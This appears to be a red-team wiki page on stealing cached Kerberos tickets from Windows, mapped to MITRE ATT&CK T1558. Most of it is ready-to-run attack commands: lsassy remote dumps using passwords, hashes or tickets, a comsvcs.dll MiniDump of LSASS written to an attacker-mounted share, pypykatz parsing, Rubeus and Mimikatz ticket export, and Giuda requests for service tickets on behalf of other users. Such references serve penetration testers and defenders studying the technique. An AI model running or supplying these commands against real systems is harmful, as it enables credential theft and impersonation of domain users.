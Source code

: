 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service)](broken-reference) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets&#x20;

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="Unix-Like" %}
From an Unix attacking machine, we can remotely dump tickets using [lsassy](https://github.com/Hackndo/lsassy).

```bash
# With a password
lsassy -d <DOMAIN.LOCAL> -u <USER> -p <PASSWORD> <TARGET> -K '/tmp/kerberos_tickets'

# With PtH
lsassy -d <DOMAIN.LOCAL> -u <USER> -H <NTHash> <TARGET> -K '/tmp/kerberos_tickets'

# With PtT
lsassy -k <TARGET> -K '/tmp/kerberos_tickets'
```

We also can do it manually by dumping LSASS memory using one of [this techniques](broken-reference), exfiltrate the dump on our attacking machine, and then retrieve tickets using [pypykatz](https://github.com/skelsec/pypykatz).

```bash
# Example of a dump where Z: is mounted on the attacking host
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid Z:\lsass.dmp full

# Get Tickets
pypykatz lsa minidump /path/to/lsass.dmp -k /tmp/kerberos_tickets
```
{% endtab %}

{% tab title="Windows" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}
{% endtabs %}



### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../../redteam/privilege-escalation/windows/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}
